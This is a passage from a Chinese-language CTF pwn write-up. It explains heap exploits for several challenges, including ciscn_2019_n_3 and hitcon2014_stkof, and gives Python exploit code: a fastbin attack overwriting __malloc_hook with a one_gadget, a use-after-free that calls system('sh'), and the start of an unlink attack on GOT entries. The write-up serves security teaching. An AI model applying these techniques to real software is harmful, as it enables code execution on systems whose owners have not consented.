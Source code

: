 接下来先绕过 fastbin 的大小检查，随后向 fd 写入 `malloc_hook` 上方的地址后申请回来，从申请到的地址出发填充 11 字节后即可用 `one_gadget` 覆盖 `__malloc_hook`。但是需要注意的是 `one_gadget` 的约束条件得不到满足，因此需要先执行 `__libc_realloc` 对 rsp 进行调整。最后用 `one_gadget` 覆盖 `__realloc_hook`。
```python
add(0x60) # 5 (2)
delete(2) # bypass fastbin check
edit(5,0x8,p64(main_arena-0x33)) # above malloc_hook
add(0x60) # 2
add(0x60) # 6
payload = flat('a'*0xb,base+0x4526a,base+libc.sym['realloc']+2)
edit(6,len(payload),payload)
add(0x18)
```

### ciscn_2019_n_3
本题 `do_new` 函数先创建 `0xc` 的 chunk，包含填充的数字、对数字的打印函数和释放函数；而如果申请的是 `string` 类型，且长度不超过 `0x400` 的话，随后还会创建一个新的 chunk，包含字符串内容、对字符串的打印函数和释放函数。

而在 `do_del` 中，`free` 后没有清空指针，存在 uaf。因此可以先申请两个堆块（总大小大于 `0xc`）然后依次释放，再申请一个大小为 `0xc` 的堆块。那么此时先会拿出 `chunk1` 的 `0xc` 这一块，再拿出 `chunk0` 的 `0xc` 这一块，后者是我们可写的。

通过逆向可知结构体偏移 0 处是打印函数、偏移 4 处是释放函数，释放函数的参数是结构体指针本身。那么我们将 `chunk0` 的打印函数写成 `sh\x00\x00`（注意 4 字节），释放函数用 `system` 覆盖，释放时就会执行 `system("sh")`。

```python
def add(index,len,content='a'):
	sla('CNote> ','1')
	sla('Index> ',str(index))
	sla('Type> ','2')
	sla('Length> ',str(len))
	sla('Value> ',content)

def delete(index):
	sla('CNote> ','2')
	sla('Index> ',str(index))

add(0,0x10)
add(1,0x10)
delete(0)
delete(1)
add(2,0xc,'sh\x00\x00'+p32(elf.sym['system']))
# 0xc from 1, then 0xc from 0
delete(0)
```

### hitcon2014_stkof
本题共四个功能：添加、读入内容、删除、显示。其中读入内容存在堆溢出，我们可以利用这个溢出实现 unlink 攻击。程序中存在全局数组 `bag`，存放所有 chunk 的 mem 指针。

先申请 3 个 chunk，其中第 1 个 chunk 没有用，只是因为前两个 chunk 不连续所以才申请的。随后通过 chunk2 溢出到 chunk3 进行 unlink 攻击，这样修改 `bag[2]` 等价于修改 `bag[-1]`，填充掉 `bag[-1]` 和 `bag[0]` 后，令：
- `bag[1] = elf.got['free']`
- `bag[2] = elf.got['fflush']`，`fflush` 可以是任意已调用的 libc 函数
- `bag[3] = elf.got['atoi']`
